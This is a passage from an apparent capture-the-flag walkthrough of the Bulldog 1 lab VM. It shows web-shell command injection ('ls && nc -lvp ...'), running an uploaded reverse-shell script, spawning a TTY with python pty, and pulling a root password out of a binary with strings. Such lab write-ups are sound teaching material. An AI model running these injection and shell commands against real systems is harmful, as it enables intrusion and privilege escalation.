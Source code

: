 Then, I go to the Web Shell and type:

`ls && nc -lvp 2134 > file.py`

This will create a listening connection on port 2134 and save anything on a file called file.py.

Finally, I connect to the machine on that port and send the content of the file.

![Connect to port]({{site.baseurl}}/images/posts/bulldog-1/27.png)

Now, on the target machine I see the file:

![See file]({{site.baseurl}}/images/posts/bulldog-1/28.png)

I only have to execute it, but first, open a connection on port 1234 (just as I specified on the script) on my local machine:

![Open connection on port 1234]({{site.baseurl}}/images/posts/bulldog-1/29.png)

And finally run the command on the web shell `ls && python file.py`.

![Run command on web shell]({{site.baseurl}}/images/posts/bulldog-1/30.png)

It worked.

I immediately go to the bulldogadmin directory and check what's there.

![Bulldogadmin dir]({{site.baseurl}}/images/posts/bulldog-1/31.png)

Interesting. I'll check first .hiddenadmindirectory:

![Check hiddenadmindirectory]({{site.baseurl}}/images/posts/bulldog-1/32.png)

This is all I wanted to hear (or read!). Currently, I am the webserver "django" which means that I just need to find the password and I'm sure I will find it in this file. I bet I can reverse it. At least try...

First, I would like to get a tty shell, and luckily I can do that with python. I'll run python -c 'import pty; pty.spawn("/bin/sh")' to get one.

After that I'll start reversing the file. First, I want to try the strings command to check the readable strings in the program:

![Reverse file]({{site.baseurl}}/images/posts/bulldog-1/33.png)

Well, I don't know if I'm lucky or what... But immediately after I start reading the strings, I realize there are four words I completely understand.

![Password hidden in strings]({{site.baseurl}}/images/posts/bulldog-1/34.png)

I know from the note that the webserver (django) has root access "sometimes". And given the strings I found, I bet that is the password for the webserver. Needed, of course, to perform tasks as root. This is the dumbest program I've seen, Ashley...

Well, I don't lose anything trying, right? I'll try to perform a task as sudo with the password: SUPERultimatePASSWORDyouCANTget.
